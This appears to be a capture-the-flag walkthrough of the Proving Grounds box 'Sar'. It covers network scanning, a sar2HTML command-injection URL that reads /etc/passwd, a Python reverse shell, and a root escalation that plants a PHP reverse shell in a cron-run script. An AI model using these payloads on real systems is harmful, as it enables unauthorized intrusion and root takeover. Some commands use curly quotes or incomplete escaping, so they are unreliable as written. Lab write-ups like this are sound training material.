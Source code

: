 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploiting sar2HTML via Remote Code Execution (RCE)
- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag can be found here** (/home/love/Desktop/user.txt)

- - -

### step 5 (final): Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh

```
php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
```
  * IP address = attacker machine (mine)
  * Setup listener **nc -lvp 4444**
  * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```
- echo requires a \ in front of a $ and " (probably more)




